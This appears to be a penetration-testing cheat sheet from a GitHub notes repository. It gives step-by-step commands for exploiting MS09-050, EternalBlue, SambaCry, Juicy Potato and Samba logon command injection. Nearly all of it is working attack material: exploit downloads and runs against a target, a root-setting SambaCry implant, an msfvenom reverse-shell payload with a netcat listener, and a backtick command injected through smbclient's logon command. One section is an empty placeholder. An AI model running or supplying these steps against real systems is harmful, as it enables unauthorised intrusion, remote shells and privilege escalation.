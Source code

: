 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

# Exploit
## Table of Contents
* [CVE-2009-3103: SMBv2 Command Value Vulnerability (MS09_050)](#cve-2009-2532-smbv2-command-value-vulnerability-ms09-050)
* [CVE-2017-0144: EternalBlue](#cve-2017-0144-eternalblue)
* [CVE-2017-7494: SambaCry](#cve-2017-7494-sambacry)
* [CVE-2014-6271: ShellShock via SMTP](#cve-2014-6271-shellshock-via-smtp)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

## CVE-2009-3103: SMBv2 Command Value Vulnerability (MS09-050)
Impacts Windows Vista Gold, SP1, and SP2, Windows Server 2008 (32-bit) Gold and SP2, and Windows 7. 
```bash
nmap $TARGET -p445 --script smb-vuln-cve2009-3103
wget https://raw.githubusercontent.com/ankh2054/python-exploits/master/ms09-050.py
```

## CVE-2017-0144: EternalBlue
Exploiting this vulnerability requires access to a Named Pipe. NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes. 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```



## CVE-2017-7494: SambaCry
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

## CVE-2014-6271: ShellShock via SMTP
```bash
# code goes here
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
